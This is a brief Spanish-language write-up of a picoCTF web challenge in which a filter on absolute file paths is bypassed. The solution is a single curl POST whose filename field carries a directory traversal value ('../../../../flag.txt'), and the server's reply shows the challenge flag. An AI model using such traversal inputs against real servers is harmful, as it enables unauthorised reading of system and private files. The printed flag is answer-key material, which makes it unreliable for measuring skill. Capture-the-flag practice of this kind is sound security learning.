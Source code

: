 # Ejercicios de tarea

## Descripcion

Can you get the flag? Here's the [website](http://saturn.picoctf.net:55827/). We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Pistas (Si hay)



## Solución

``` Bash

No encontraba forma de solucionarlo y me base en el video de referencias para poder terminarlo

┌──(kali㉿kali)-[~]
└─$ curl -X POST http://saturn.picoctf.net:55827/read.php --data "filename=../../../../flag.txt"
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Web eReader</title>
  </head>
  <body>
    
    picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}<br>  </body>
</html>

```

## Referencias

https://www.youtube.com/watch?v=dwuC2TpzJ7k